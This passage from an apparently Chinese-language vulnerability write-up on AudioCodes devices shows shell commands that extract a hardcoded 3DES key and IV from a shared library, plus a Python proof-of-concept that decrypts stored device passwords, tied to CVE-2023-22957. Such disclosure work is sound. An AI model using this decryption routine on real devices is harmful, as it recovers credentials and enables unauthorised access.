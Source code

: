 ```bash
Extraction of the Key:
$ offset=$(python3 -c 'print(int("00000fb8", base=16))')
$ dd skip=$offset count=24 if=libac_des3.so of=key.bin bs=1

Extraction of the IV:
$ offset=$(python3 -c 'print(int("00000fb0", base=16))')
$ dd skip=$offset count=8 if=libac_des3.so of=iv.bin bs=1
```

最后，可以使用一个简单的 Python 脚本来解密 AudioCodes 设备中的加密密码：

```bash
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
import base64
from Crypto.Cipher import DES3
from binascii import unhexlify

KEY = unhexlify('604075fb########################################')
IV  = unhexlify('a3a4####35cb####')

def decrypt(ciphertext):
    ciphertext_decoded = base64.b64decode(ciphertext)
    cipher = DES3.new(KEY, DES3.MODE_CBC, iv=IV)
    plaintext = cipher.decrypt(ciphertext_decoded)
    print("plain text password: {}".format(plaintext.decode('utf-8')))


def main():
    decrypt(sys.argv[1])


if __name__ == '__main__':
    main()
$ python3 poc.py VvlZOp5/5pM=

plain text password: system
```

这种硬编码的加密密钥的使用在 SYSS-2022-052（CVE-2023-22957）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957)

### 3.配置文件加密

接下来，我们注意到 AudioCodes 设备的配置文件也可以完全以加密的形式存储：
